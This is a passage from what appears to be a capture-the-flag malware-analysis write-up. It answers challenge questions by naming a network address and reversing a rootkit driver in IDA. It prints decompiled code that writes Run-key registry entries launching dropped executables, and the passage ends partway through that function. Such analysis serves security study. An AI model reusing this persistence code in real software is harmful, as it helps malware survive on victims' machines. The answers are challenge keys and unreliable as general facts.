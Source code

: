
```
Answer Q8) 192.22.14.4:443
```

### Question 9

Q9) What is the file that had to set up persistence and what is the secret string that does through encryption?

Format : filename_md5(file)_md5(decrypted-secret-string)

As we have figured out the dropped files, we can see that the driver/rootkit is the one responsible for setting up the persistence. Let's analyze the file `fJSW4lQS.sys` in ida.

####DriverEntry:
```cpp
NTSTATUS __stdcall DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
  sub_140005000();
  return sub_1400014BC((__int64)DriverObject, RegistryPath);
}
```

the first subroutine is the usual msvc security cookie setup and the second subroutine is the main function which is responsible for setting up the persistence.

After reversing and going through other subrotuine calls, we can come across an interesting function which has this.

```cpp
__int64 sub_140001070()
{
  unsigned __int8 v1; // [rsp+40h] [rbp-1E8h]
  NTSTATUS v2; // [rsp+44h] [rbp-1E4h]
  unsigned int v3; // [rsp+44h] [rbp-1E4h]
  unsigned int i; // [rsp+48h] [rbp-1E0h]
  unsigned int v5; // [rsp+4Ch] [rbp-1DCh]
  void *KeyHandle; // [rsp+50h] [rbp-1D8h] BYREF
  struct _OBJECT_ATTRIBUTES ObjectAttributes; // [rsp+58h] [rbp-1D0h] BYREF
  struct _UNICODE_STRING DestinationString; // [rsp+88h] [rbp-1A0h] BYREF
  struct _UNICODE_STRING ValueName; // [rsp+98h] [rbp-190h] BYREF
  struct _UNICODE_STRING v10; // [rsp+A8h] [rbp-180h] BYREF
  char v11[5]; // [rsp+B8h] [rbp-170h]
  char v12[3]; // [rsp+BDh] [rbp-16Bh] BYREF
  __int16 v13[32]; // [rsp+C0h] [rbp-168h] BYREF
  char Data[64]; // [rsp+100h] [rbp-128h] BYREF
  char v15[64]; // [rsp+140h] [rbp-E8h] BYREF
  char v16[62]; // [rsp+180h] [rbp-A8h] BYREF
  char v17[62]; // [rsp+1C0h] [rbp-68h] BYREF

 RtlInitUnicodeString(&DestinationString, L"\\Registry\\Machine\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run");
  ObjectAttributes.Length = 48;
  ObjectAttributes.RootDirectory = 0i64;
  ObjectAttributes.Attributes = 576;
  ObjectAttributes.ObjectName = &DestinationString;
  ObjectAttributes.SecurityDescriptor = 0i64;
  ObjectAttributes.SecurityQualityOfService = 0i64;
  v2 = ZwCreateKey(&KeyHandle, 2u, &ObjectAttributes, 0, 0i64, 0, 0i64);
  if ( v2 >= 0 )
  {
    RtlInitUnicodeString(&ValueName, L"dscord");
    qmemcpy(Data, L"C:\\Windows\\Temp\\cKGzX4VI.exe", 0x3Aui64);
    ZwSetValueKey(KeyHandle, &ValueName, 0, 1u, Data, 0x3Au);
    RtlInitUnicodeString(&v10, L"stem");
    qmemcpy(v15, L"C:\\Windows\\Temp\\TwCSXWiv.exe", 0x3Aui64);
    v3 = ZwSetValueKey(KeyHandle, &v10, 0, 1u, v15, 0x3Au);
```
